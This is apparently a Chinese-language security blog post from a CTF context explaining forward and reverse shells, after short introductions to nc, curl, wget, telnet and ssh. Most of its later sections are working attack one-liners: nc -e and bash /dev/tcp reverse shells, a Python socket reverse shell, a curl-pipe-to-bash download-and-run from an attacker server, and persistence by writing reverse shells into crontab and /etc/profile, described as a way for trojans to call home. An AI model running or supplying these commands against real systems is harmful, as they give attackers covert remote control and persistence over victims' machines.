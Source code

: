 ```yaml
---
title: 如何反弹shell
date: 2022-03-29 11:15:00
updated: 2022-03-29 11:15:00
tags: [ctf,security]
description: reverse shell
archive: false
---
```


# 浅谈如何反弹shell

## linux下常见网络工具🧀

### netcat

netcat也就是平时用的nc，是一种功能丰富的网络调试和调查工具，它可以产生用户可能需要的几乎任何类型的连接，可以连接到远程主机`nc  -nvv Targert_IP  Targert_Port`，监听本地主机`nc  -l  -p  Local_Port`，端口扫描`nc  -v  target_IP  target_Port`、端口监听`nc  -l  -p  local_Port`、远程文件传输`nc  Targert_IP  Targert_Port  <  Targert_File`、正向shell、反向shell等等。

### curl

在Linux中curl是一个利用URL规则在命令行下工作的文件传输工具，可以说是一款很强大的http命令行工具。它支持文件的上传和下载，是综合传输工具，这个工具可以帮助我们在服务器上很好的模拟http的行为。

### wget

wget是一个下载文件的工具，它用在命令行下。对于Linux用户是必不可少的工具，我们经常要下载一些软件或从远程服务器恢复备份到本地服务器。

### curl和wget的区别

wget是个专职的下载利器，简单，专一，极致；而curl可以下载，但是长项不在于下载，而在于模拟提交web数据，POST/GET请求，调试网页，等等。在下载上，也各有所长，wget可以递归，支持断点；而curl支持URL中加入变量，因此可以批量下载。个人用途上，我经常用wget来下载文件，加 -c选项不怕断网；使用curl 来跟网站的API 交互，简便清晰。

#### ping

ping命令本身处于应用层，相当于一个应用程序，它直接使用网络层的ICMP协议，ping用来检查网络是否通畅或者网络连接速度的命令。

### telnet

telnet协议是TCP/IP协议族的其中之一，是Internet远端登录服务的标准协议和主要方式，常用于网页服务器的远端控制，可供使用者在本地主机执行远端主机上的工作。telnet通常是用来探测指定ip是否开放指定端口。

### ssh

简单来书,ssh 和 telnet 是实现相同的功能 , ssh中 数据是经过加密的,是安全的 , 而 Telnet是明文传输的，ssh 是加密的，基于 SSL 。

## 正向shell如何连接

如果客户端连接服务器端，想要获取服务器端的shell，那么称为正向shell。

**目标主机：**

命令：`nc  -lvp  Targert_Port  -e  /bin/sh  `

![image-20220329101019243](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220329101019243.png)

**本地主机：**

命令：`nc  Targert_IP  Targert_Port `

![image-20220329101103804](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220329101103804.png)

## 什么是反弹shell

>
>
>参考:
>
>https://xz.aliyun.com/t/9488
>
>https://zhuanlan.zhihu.com/p/138393396

反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

举例：假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web服务、ssh、telnet等等都是正向连接。那么什么情况下正向连接不能用了呢？

有如下情况：

1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。

2.目标机器的ip动态改变，你不能持续控制。

3.由于防火墙等限制，对方机器只能发送请求，不能接收请求。

4.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机等情况都是未知的，所以建立一个服务端让恶意程序主动连接，才是上策。

那么反弹就很好理解了，攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

反弹shell的方式有很多，那具体要用哪种方式还需要根据目标主机的环境来确定，比如目标主机上如果安装有netcat，那我们就可以利用netcat反弹shell，如果具有python环境，那我们可以利用python反弹shell。如果具有php环境，那我们可以利用php反弹shell。

## 弹shell的方式

### netcat

攻击机开启监听:`nc -lvp Target_Port`

-lvp中l指监听，v指输出交互过程，p为指定端口

靶机连接攻击机:`netcat Target_IP Target_Port -e /bin/bash `

![image-20220329104342323](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220329104342323.png)

![image-20220329104621670](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220329104621670.png)

### Bash

同样的我们还是用nc -lvp Target_Port在攻击机的端口开启监听，`nc -lvp Target_Port`这次我们使用Bash结合重定向来反弹shell

`bash -i >& /dev/tcp/Target_IP/Target_Port 0>&1`或者`bash -c "bash -i >& /dev/tcp/Target_IP/Target_Port 0>&1"`

bash -i 产生bash交互环境 >& 将联合符号前后内容结合，重定向给后者，/dev/tcp/Target_IP/Target_Port让目标主机发起与攻击机在Target_Port上的TCP连接，0>&1将标准输入和标准输出的内容相结合，重定向给前面标准输出的内容。

Bash产生了一个交互环境和本地主机主动发起与攻击机端口建立的连接相结合，然后在重定向个TCP 会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个Bash反弹环境。

![image-20220329105826704](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220329105826704.png)

![image-20220329110013286](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220329110013286.png)

### Python脚本反弹shell

同样的我们还是在攻击机开始端口监听，`nc -lvp Target_Port`

在靶机上执行`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Target_IP",Target_Port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

### Others

反弹shell的方式很多，nc和bash是比较常见的方式，其他还有Telnet，Socat等工具可以反弹shell，或者写个python，php等脚本也可以反弹shell，比较琐碎的内容具体遇到了再查即可。

### 一些小技巧

因为有时候达成利用的方式可能比较间接，这些技巧可以在不同的情境下达成反弹shell的作用。

#### Curl反弹shell

简单来说就是将Bash重定向这一句内容写入文件，让靶机用curl下载这个文件并且执行，达到用Bash重定向相同的效果

首先，在攻击者vps的web目录里面创建一个index文件（index.php或index.html），内容如下：

`bash -i >& /dev/tcp/Target_IP/Target_Port 0>&1`或者`bash -c "bash -i >& /dev/tcp/Target_IP/Target_Port 0>&1"`

然后在目标机上执行如下，即可反弹shell

`curl Target_IP|bash`

#### 将反弹shell的命令写入定时任务

我们可以在目标主机的定时任务文件中写入一个反弹shell的脚本，但是前提是我们必须要知道目标主机当前的用户名是哪个。因为我们的反弹shell命令是要写在 `/var/spool/cron/[crontabs]/<username>` 内的，所以必须要知道远程主机当前的用户名。否则就不能生效。

定时任务的理念就是每隔一段时间发送shell，以下为每隔1分钟发送shell

`*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/Target_IP/Target_Port 0>&1`

#### 将反弹shell的命令写入/etc/profile文件

将反弹shell的命写入/etc/profile文件中，/etc/profile中的内容会在用户打开bash窗口时执行。

`/bin/bash -i >& /dev/tcp/Target_IP/Target_Port 0>&1 & `

 最后面那个&为的是防止管理员无法输入命令





